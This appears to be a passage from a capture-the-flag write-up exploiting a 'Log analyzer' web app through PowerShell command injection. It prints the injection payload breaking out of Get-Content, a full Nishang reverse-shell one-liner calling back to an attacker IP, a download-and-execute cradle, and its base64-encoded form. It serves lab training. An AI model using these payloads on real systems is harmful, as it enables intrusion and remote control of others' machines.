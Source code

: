 ![1stflag](3.png)

We got a `Log analyzer`, and it seems we can request files.

I directly tried a command injection and got the following.

![getcontent](4.png)

We can see that it uses powershell `Get-Content` to retrieve the file.

```powershell
Get-Content('C:\file')
```

To get command execution we need to break out of the function first then run our command.

We can do that by closing the single quotes first and then the parentheses `')`. After we add semi-colon `;` then the command we want to execute `whoami` and we don't forget to comment the rest of the code by adding `#` at the end.

```powershell
BitlockerActiveMonitoringLogs') ; whoami #
```

![whoami](5.png)

It worked!

## **Foothold**

Now let's get a reverse shell.

We can use `Nishang's Invoke-PowershellTcpOneLine.ps1` script located at `/usr/share/nishang/Shells/Invoke-PowerShellTcpOneLine.ps1`.

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.14.91.207',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

>Don't forget the change the ip address to your tun0 ip

i'll put the command in a file and name it `shell.ps1`

Now we will create out command that's going to request this file and run it after that to get a shell. This also known as a `Web Cradle`.

```powershell
IEX(New-Object Net.WebClient).downloadString("http://10.14.91.207/shell.ps1")
```

Now we need to encode it to `utf-16le` because that is what powershell likes and then encode it with base64.

```bash
echo 'IEX(New-Object Net.WebClient).downloadString("http://10.14.91.207/shell.ps1")' | iconv -t utf-16le | base64 -w 0;echo
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEANAAuADkAMQAuADIAMAA3AC8AcwBoAGUAbABsAC4AcABzADEAIgApAAoA
```

